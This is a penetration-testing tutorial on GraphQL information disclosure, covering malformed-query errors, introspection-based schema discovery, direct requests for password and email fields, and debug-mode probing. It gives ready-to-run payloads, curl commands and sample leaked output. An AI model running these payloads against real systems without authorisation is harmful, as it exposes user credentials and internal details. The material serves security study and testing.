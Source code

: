 ```yaml
---
title: Mastering GraphQL Information Disclosure Techniques
description: Explore techniques for exploiting GraphQL vulnerabilities, focusing on
  verbose error messages and schema leaks.
keywords:
- GraphQL injection
- information disclosure
- schema leaks
- error messages
- sensitive data exposure
- debug mode
- access control
- GraphQL security
- stack traces
- internal path exposure
---
```


# Information Disclosure

## Context

The goal of this article is to explain how attackers can leverage GraphQL injection vulnerabilities to gain unauthorized access to sensitive information. This type of exploitation primarily focuses on verbose error messages, schema leaks, and exposure of sensitive data. Practitioners engaging with this technique should have a working understanding of GraphQL query syntax, the fundamentals of HTTP request and response cycles, web application architectures, and basic methods of exploiting GraphQL injections.

## Theory

### Information Disclosure in GraphQL Context

Information disclosure refers to the unintentional exposure of internal data, debug details, or sensitive business information through GraphQL endpoints. Such exposures often occur due to verbose error handling or security misconfigurations within GraphQL services. Attackers can exploit these weaknesses to unveil stack traces, sensitive schema components, or even database errors, ultimately gaining insights into the back-end systems.

### Common GraphQL Information Disclosure Vectors

Attackers typically use various strategies to extract sensitive information through GraphQL:

1. **Injecting Malformed Queries**
   By sending intentionally malformed requests, attackers can trigger errors that reveal stack traces or database error messages.
   
2. **Schema and Field Discovery**
   Introspection queries can uncover detailed schema structures, exposing sensitive fields that should be hidden from unauthorized access.
   
3. **Requesting Sensitive Fields Directly**
   By asking for sensitive fields like `password` or `email` directly within queries, an attacker can exploit access control weaknesses.
   
4. **Exploiting Debug/Development Mode**
   Development or debug configurations often leave verbose error messages active, further compromising system security by revealing excessive internal details.

### GraphQL Error Handling and Security Misconfigurations

GraphQL's default error handling may inadvertently expose sensitive information such as stack trace details or internal paths. Additionally, when GraphQL services are running in development mode, more verbose errors are displayed. This increased verbosity may lead to significant information exposure if proper error sanitization measures are not enforced.

## Practice

### Triggering Verbose Error Messages via Malformed Queries

- **Payload:**

  ```json
  { user(id: "' OR 1=1 --") { id name } }
  ```

  _Explanation:_ This query injects a malformed value aimed at provoking error-handling in the backend.

- **Command Line:**

  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' --data '{\"query\": \"{ user(id: \\\"' OR 1=1 --\\\") { id name } }\"}'
  ```

  _Explanation:_ Sends the crafted query to the GraphQL endpoint to trigger an error response.

- **Expected Output:**

  ```text
  {"errors":[{"message":"SQL syntax error near ...","extensions":{"exception":{"stacktrace":[...],"path":"/app/models/user.js"}}}]}
  ```

  _Explanation:_ Detailed error messages might contain stack traces and internal path information valuable for an attacker.

### Schema and Field Discovery via Introspection

- **Payload:**

  ```json
  { __schema { types { name fields { name type { name } } } } }
  ```

  _Explanation:_ This standard introspection query allows the attacker to enumerate the schema details.

- **Command Line:**

  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' --data '{\"query\": \"{ __schema { types { name fields { name type { name } } } } }\"}'
  ```

  _Explanation:_ Sends the introspection query to explore database schema details.

- **Expected Output:**

  ```text
  {"data":{"__schema":{"types":[{"name":"User","fields":[{"name":"password"},{"name":"email"}]},...]}}}
  ```

  _Explanation:_ The response can reveal sensitive fields and schema components.

### Accessing Sensitive Fields via Overly Permissive Queries

- **Payload:**

  ```json
  { user(id: 1) { id name password email } }
  ```

  _Explanation:_ Directly requests sensitive fields to check for any access control issues.

- **Command Line:**

  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' --data '{\"query\": \"{ user(id: 1) { id name password email } }\"}'
  ```

  _Explanation:_ Sends a crafted request to access potentially sensitive user data.

- **Expected Output:**

  ```text
  {"data":{"user":{"id":1,"name":"admin","password":"$2y$10$...","email":"admin@example.com"}}}
  ```

  _Explanation:_ Demonstrates exposure of sensitive data due to inadequate access restrictions.

### Identifying Debug/Development Mode Exposure

- **Payload:**

  ```json
  { invalidField }
  ```

  _Explanation:_ The query aims at a nonexistent field to trigger verbose error output.

- **Command Line:**

  ```bash
  curl -X POST http://target/graphql -H 'Content-Type: application/json' --data '{\"query\": \"{ invalidField }\"}'
  ```

  _Explanation:_ Attempts to provoke errors indicating whether debug or development mode is active.

- **Expected Output:**

  ```text
  {"errors":[{"message":"Cannot query field 'invalidField' on type 'Query'.","extensions":{"exception":{"debugMessage":"Development mode enabled","stacktrace":[...]}}}]}
  ```

  _Explanation:_ Reveals verbose error information characteristic of development mode vulnerabilities.

## Tools

- **curl**
- **Burp Suite**
- **GraphQL Voyager**
- **Postman**

This comprehensive guide outlines the attack vectors associated with GraphQL information disclosure, enabling security professionals to understand and simulate these exploits effectively. Practitioners should proceed with due care only in controlled environments to prevent unauthorized data leakage.